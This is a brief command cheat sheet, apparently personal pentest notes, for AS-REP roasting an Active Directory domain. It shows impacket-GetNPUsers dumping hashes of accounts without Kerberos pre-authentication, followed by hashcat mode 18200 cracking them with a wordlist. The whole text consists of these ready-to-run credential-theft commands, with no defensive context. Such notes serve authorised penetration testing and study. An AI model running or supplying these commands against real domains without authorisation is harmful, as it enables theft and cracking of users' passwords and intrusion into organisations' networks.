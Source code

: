 ## Get users without preauth enabled - save hashes

impacket-GetNPUsers domain/ -usersfile userfile.txt -format hashcat -outputfile hashfile

## crack hashes with hashcat

hashcat -m 18200 hashes wordlist.txt